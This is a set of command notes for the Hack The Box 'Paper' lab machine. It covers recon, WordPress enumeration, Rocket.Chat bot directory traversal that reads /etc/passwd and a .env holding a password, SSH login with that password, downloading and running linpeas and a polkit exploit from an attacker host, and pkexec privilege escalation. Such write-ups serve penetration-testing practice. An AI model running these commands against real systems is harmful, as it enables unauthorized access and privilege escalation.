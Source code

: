 ## HTB: Paper - Command Notes

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

### Recon
```bash
nmap -p- --min-rate 10000 10.10.11.143
nmap -p 22,80,443 -sCV 10.10.11.143
```

### Directory/Subdomain Discovery
```bash
feroxbuster -u http://office.paper
wfuzz -u http://office.paper -H "Host: FUZZ.office.paper" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 199691
```

### [WordPress Enumeration](HTTP)
```bash
wpscan --url http://office.paper --api-token $WPSCAN_API
```

### CVE-2019-17671 - View Draft Posts
```bash
# Visit in browser:
http://office.paper/?static=1
```

### Rocket.Chat - Directory Traversal via recyclops Bot
```
# In DM to @recyclops
list ../../../
file ../../../etc/passwd
file ../../../hubot/.env
```

### Credential Discovery & SSH Access
```bash
# Found creds in .env:
# dwight:Queenofblad3s!23

crackmapexec ssh 10.10.11.143 -u dwight -p 'Queenofblad3s!23'

sshpass -p 'Queenofblad3s!23' ssh dwight@10.10.11.143
```

### LinPEAS Enumeration
```bash
git clone https://github.com/carlospolop/PEASS-ng
cd PEASS-ng/linPEAS
python3 -m builder.linpeas_builder
python3 -m http.server 80

# On target:
wget http://10.10.14.6/linpeas.sh
bash linpeas.sh
```

### CVE-2021-3650 (Polkit User Creation)
```bash
# Host side:
wget https://raw.githubusercontent.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/main/cve-2021-3650.sh
python3 -m http.server 80

# On Paper:
wget http://10.10.14.6/cve-2021-3650.sh
bash cve-2021-3650.sh

# Login to new user
su - secnigma
# Password: secnigmaftw
sudo bash
```

### PwnKit - (CVE-2021-4034)
```bash
# On Paper:
ls -l /usr/bin/pkexec
# If not setuid:
chmod 4755 /usr/bin/pkexec

# Compile exploit:
cc -Wall exploit.c -o exploit

# Run exploit:
./exploit
```

### Flags
```bash
cat /home/dwight/user.txt
cat /root/root.txt
```